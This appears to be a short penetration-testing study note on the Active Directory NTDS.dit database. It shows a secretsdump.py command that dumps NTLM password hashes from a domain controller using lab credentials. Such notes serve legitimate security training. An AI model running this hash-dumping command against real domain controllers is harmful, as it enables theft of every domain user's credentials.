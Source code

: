 ## **NTDS.dit Overview**

### **What is it ?**

- A database used to store AD data. This data includes:
	- User information
	- Group information
	- Security descriptors
	- And oh yeah, password hashes


## **General Usage**

We can use the tool `secretsdump.py` to dump out the NTDS.dit secrets

```powershell
# secretsdump.py <domain/user>:'password'@DC-IP-ADDRESS -just-dc-ntlm
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.0.149 -just-dc-ntlm
```

